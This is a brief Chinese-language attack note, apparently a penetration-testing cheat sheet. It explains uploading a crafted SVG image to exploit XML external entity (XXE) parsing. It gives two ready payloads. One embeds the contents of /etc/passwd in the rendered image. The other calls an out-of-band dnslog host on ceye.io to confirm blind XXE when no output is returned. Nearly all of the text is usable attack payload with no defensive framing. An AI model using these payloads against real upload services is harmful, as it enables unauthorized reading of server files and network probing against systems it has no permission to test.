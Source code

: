 利用svg的xxe读文件，保存下方为svg图片，文件上传。
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///etc/passwd" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```
如果不回显，使用外部dtd或dnslog回显验证。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "2qytvx.ceye.io/xxe_test" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```